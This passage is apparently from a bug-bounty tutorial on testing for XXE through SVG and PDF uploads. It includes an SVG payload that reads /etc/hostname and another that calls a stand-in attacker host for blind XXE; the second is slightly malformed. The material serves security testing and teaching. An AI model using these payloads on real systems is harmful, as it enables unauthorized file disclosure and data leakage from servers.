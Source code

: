 If we can import this XML file into our application to create a note we have an entry point for XXE attacks but this almost never happens! 

You really don't see much XML out there at all anymore. Most applications will use different types of data formats yet this vulnerability is number 4 in the top 10 OWASP list of 2017. Does this mean that XML files are becoming a hot topic again? No, ofcourse not! Good riddance to that old outdated technology! 

There are other entry points for XML attacks that most hunters might not have heard about or they might not have given it a second look. 

## XXE via SVG

This is one of my favourite ones because almost every website will have some option to upload a picture and render that picture. This is what SVG is in essence and though it may seem more complicated than that, it is not. It is in fact just an image but described in an XML format. This means that if the server allows SVG files that we can always test for XXE. 

```xml
<svg xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" width="300" version="1.1" height="200"><image xlink:href="file:///etc/hostname"></image></svg>
```

This SVG file will try to open the file:///etc/hostname and display it to the user. 

```xml
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://f2g9j7hhkax.web-attacker.com"> ]><svg xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" width="300" version="1.1" height="200"><!ENTITY xxe SYSTEM 'http://f2g9j7hhkax.web-attacker.com'></svg>
```

But we can also just test for blind XXE to start with. We can save these texts as 'Anything.SVG' and try to upload them anywhere that we can upload an image and that the image would render for example in profile pictures or banners. 

## XXE via PDF's

Attacking a target sometimes means getting creative ... very creative. It may not seem directly apearant but we can also test for XXE via PDF upload functionality. Again the target will need to render the PDF to test for XXE attacks because if you can simple upload a PDF file but it will never render then the server will also never try to render your XML attack string. 

According to [hacktricks](https://book.hacktricks.xyz/pentesting-web/xxe-xee-xml-external-entity#pdf-file-upload) if the following attack string is accepted we can also check if XML input is accepted. 

```xml
POST /action HTTP/1.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 7

foo=bar
```

We can then try if XML input is also accepted

